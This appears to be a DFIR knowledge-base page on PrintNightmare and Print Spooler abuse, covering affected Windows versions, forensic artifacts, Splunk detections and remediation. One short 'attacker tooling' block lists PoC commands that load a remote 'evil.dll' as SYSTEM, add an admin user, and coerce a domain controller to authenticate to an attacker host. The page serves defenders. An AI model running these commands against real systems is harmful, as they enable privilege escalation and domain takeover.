

# PrintNightmare & Print Spooler Abuse

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1068 (Exploitation for Privilege Escalation) · T1210 (Exploitation of Remote Services) · T1547.012 (Print Processors) · **CVE:** CVE-2021-1675, CVE-2021-34527 · **Tactic:** Privilege Escalation / Lateral Movement · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    The **Print Spooler** (`spoolsv.exe`) runs as **SYSTEM** on almost every Windows machine — including domain controllers — and lets clients install printer drivers. **PrintNightmare** (2021) abused the driver-install APIs (`RpcAddPrinterDriverEx` in MS-RPRN, and MS-PAR) so that any authenticated user could make the spooler load an **arbitrary DLL as SYSTEM**, locally or **remotely**. On a DC, that is domain compromise from a normal user account. The Spooler is also the engine of the **PrinterBug** coercion used for [NTLM relay](llmnr-ntlm-relay.md) and of print-processor **persistence**. Lesson for defenders: *disable services you don't need*.

## How the attack works



Related Spooler issues:

| Issue | Year | Impact |
|---|---|---|
| **PrintNightmare** CVE-2021-1675 / 34527 | 2021 | LPE + **remote code execution** as SYSTEM |
| Point-and-Print follow-ups (CVE-2021-36958 etc.) | 2021 | LPE via printer driver install from attacker print server |
| **PrinterBug / SpoolSample** (MS-RPRN `RpcRemoteFindFirstPrinterChangeNotificationEx`) | 2018 → *by design* | Coerce any host (incl. DCs) to authenticate to the attacker — relay / unconstrained delegation abuse |
| **PrintSpoofer** | 2020 | `SeImpersonate` → SYSTEM — see [Potato attacks](token-impersonation-potato.md) |
| Stuxnet MS10-061 | 2010 | Spooler RCE via shared printer (XP-era) |

## Attacker tooling / commands

```text
# Check whether the spooler is exposed remotely
rpcdump.py @dc01 | egrep 'MS-RPRN|MS-PAR'

# PrintNightmare PoCs (recognition)
CVE-2021-1675.py corp/user:pass@dc01 '\\10.0.0.66\share\evil.dll'
Invoke-Nightmare -DriverName "Xerox" -NewUser "bad" -NewPassword "..."   # local LPE, adds admin
mimikatz  misc::printnightmare /server:dc01 /library:\\10.0.0.66\share\evil.dll

# Coercion
printerbug.py corp/user@dc01 10.0.0.66
SpoolSample.exe dc01 attackerhost
```

## Affected Windows versions

| Version | PrintNightmare | Notes |
|---|---|---|
| **XP / 2003** | No fix released (out of support) | Spooler on by default; also historic MS10-061 |
| **Vista / 2008** | 2008 SP2 patched (ESU era) | |
| **7 / 2008 R2** | **Patched out-of-band July 2021** even though 7 was out of support | Notable — shows severity |
| **8.1 / 2012 / 2012 R2** | Patched | |
| **10 / 2016 / 2019 / 2022** | Patched (June/July/Aug 2021 updates) | Aug 2021 update changed default: **only admins can install printer drivers** (`RestrictDriverInstallationToAdministrators=1`) |
| **11 / 2025** | Ship with the fixed defaults | Spooler still **on by default**; PrinterBug coercion still works |

!!! warning "The patch alone was not enough"
    In 2021 hosts were still exploitable after patching if **Point and Print** policy had `NoWarningNoElevationOnInstall=1` or `UpdatePromptSettings=1`. Check these registry values under `HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint` — they should be **absent or 0**, and `RestrictDriverInstallationToAdministrators` should be **1**.

## Artifacts left behind

| Where | Artifact | What to look for |
|---|---|---|
| File system | New DLLs in `C:\Windows\System32\spool\drivers\x64\3\` (and `\3\Old\N\`) not belonging to a real printer vendor | The payload — check signer and creation time ([$MFT](../windows/mft-usn.md)) |
| Sysmon | **11** file create in `spool\drivers\` by `spoolsv.exe`; **7** image load of an unsigned DLL into `spoolsv.exe` | Driver drop + load |
| Sysmon / 4688 | **1** `spoolsv.exe` → `cmd.exe` / `rundll32.exe` / `powershell.exe` | Code running as SYSTEM under the spooler |
| PrintService/Admin | **808** (spooler failed to load a plug-in module) — exploit attempts often generate this with the DLL path | Failed and successful attempts |
| PrintService/Operational | **316** (printer driver added) — log **disabled by default**, enable it | Driver install record with name and path |
| Security log | **4624 Type 3** from a user workstation to the DC shortly before; **5145** access to `\\DC\IPC$` → `spoolss` | Remote exploitation / coercion path |
| Security log | **4720/4732** new user added to Administrators (common PoC payload) | Post-exploitation |
| Registry | `HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers\Version-3\<name>` and `...\Print Processors\` | Installed drivers / persistence via print processor |

## Detection

=== "Splunk — spooler loading/dropping DLLs"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" Image="*\\spoolsv.exe"
      ((EventID=11 TargetFilename="*\\spool\\drivers\\*.dll") OR (EventID=7 Signed=false))
    | table _time, host, EventID, TargetFilename, ImageLoaded, Signature
    ```

    Sysmon `11` = file created; `7` = DLL (image) loaded. The first condition catches the spooler writing a DLL into the driver store; the second catches it loading **unsigned** code. Real printer drivers are signed.

=== "Splunk — spooler children"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1 ParentImage="*\\spoolsv.exe"
    | where NOT match(lower(Image),"splwow64\.exe|printisolationhost\.exe|conhost\.exe")
    | table _time, host, Image, CommandLine, User
    ```

    `splwow64.exe` and `PrintIsolationHost.exe` are legitimate spooler helpers; anything else spawned by `spoolsv.exe` should be investigated.

=== "Splunk — 808 plug-in failures"

    ```spl
    index=botsv3 source="*PrintService/Admin*" EventCode=808
    | table _time, host, Message
    ```

## Response

If a DC was hit, treat it as domain compromise (SYSTEM on a DC = DCSync-capable). Remove the dropped DLL and any rogue drivers (`Remove-PrinterDriver`), check for new local/domain admins, and **stop and disable the Spooler** on every server that does not need it.

### Remediation by Windows version

| Control | What it stops | Available on |
|---|---|---|
| **Stop + disable Print Spooler** (`Stop-Service Spooler; Set-Service Spooler -StartupType Disabled`) — **always on DCs** | PrintNightmare, PrinterBug coercion, PrintSpoofer | All versions |
| GPO *Allow Print Spooler to accept client connections* = **Disabled** (where printing is needed locally) | Remote exploitation | All supported versions |
| Install July/Aug 2021+ updates | The CVEs | 7 / 2008 R2 → 11 / 2022 (no fix for XP / 2003 / Vista) |
| `RestrictDriverInstallationToAdministrators = 1`; Point and Print `NoWarningNoElevationOnInstall = 0` | Non-admin driver installs | Patched 7+ (default from Aug 2021) |
| Package Point and Print — *Approved servers* list | Driver install from attacker print server | 7 / 2008 R2+ |
| Enable **PrintService/Operational** log; Sysmon 7/11 on spoolsv | Detection | Vista+ |

## References

- [Microsoft — CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [Microsoft — KB5005010 Point and Print restrictions](https://support.microsoft.com/help/5005010)
- [MITRE ATT&CK — T1068](https://attack.mitre.org/techniques/T1068/) · [T1547.012](https://attack.mitre.org/techniques/T1547/012/)
- Pages: [LLMNR & NTLM relay](llmnr-ntlm-relay.md) · [Token impersonation & Potato](token-impersonation-potato.md) · [Hardening by version](hardening-by-version.md)
